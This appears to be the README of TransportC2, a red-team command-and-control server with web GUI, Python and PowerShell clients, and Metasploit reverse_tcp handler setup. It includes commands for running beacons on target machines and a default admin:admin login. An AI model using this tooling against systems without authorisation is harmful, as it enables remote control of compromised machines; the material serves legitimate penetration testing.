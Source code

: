 # TransportC2
![](https://img.shields.io/badge/Status-PoC-orange.svg)&nbsp;&nbsp;
![](https://img.shields.io/badge/Development-Active-green.svg)&nbsp;&nbsp;

TransportC2 is a command and control server with a full GUI that allows interaction with clients through a private web interface. This allows penetration testers and red teamers the ability maintain their connection without being tied to an active session. Once logged into the admin interface, add new authorized users for team interaction and collaboration. 

## Server
Built in Python3, the TransportC2 server was designed for and tested on Debian based Linux Distributions, and has two components: 
1) An HTTPS server that runs over port 443 and accepts incoming client connections. 
2) An HTTPS admin interface that runs over port 8443 and allows users to interact with clients via web browser. This portal requires a username and password with a default login of **admin**:**admin**. Once logged in user's can change their password and add other users to allow team sharing.

#### Install
The setup.sh script will install all necessary requirements, create cert & key files, and move the working directory to /opt/transportc2:
```bash
git clone https://github.com/m8r0wn/transportc2
cd transportc2/install
sudo chmod +x setup.sh
./setup.sh
```

#### Interact with C2 Service
```bash
sudo systemctl start transportc2.service
sudo systemctl stop transportc2.service
sudo systemctl status transportc2.service
```


## Client
As of now, TransportC2 has clients written in Python 2/3 and PS1. Clients will make HTTPS requests to the C2 server and mimic a web connection. Variables at the top of the client file can be modified to change client check-in intervals, requesting page, etc. 

#### Client Usage
Run the client on a target machine:
```bash
python3 client.py 127.0.0.1 443
```
```bash
Import-Module .\client.ps1
Invoke-Client -ServerIP 127.0.0.1 -Port 443
```

#### Client Commands
Once a client is connected, login to the Admin Interface to execute one of the following commands:

*Built-in Metasploit payload only available for python client at this time*
![HelpMenu](server/AdminServer/static/img/help.png)

#### MSF Listener
Setup Metasploit to use built in client payload:
```
use exploit/multi/handler
set payload python/meterpreter/reverse_tcp
set Lhost 192.168.1.1
set Lport 4444
execute
```

## Screenshots
![Login](server/AdminServer/static/img/login.png)

![CmdPanel](server/AdminServer/static/img/cmd.png)

## Contributors 
Thanks to the following contributors that made this project possible:
* @darneymartin

Unintended Contributors
* @byt3bl33d3r
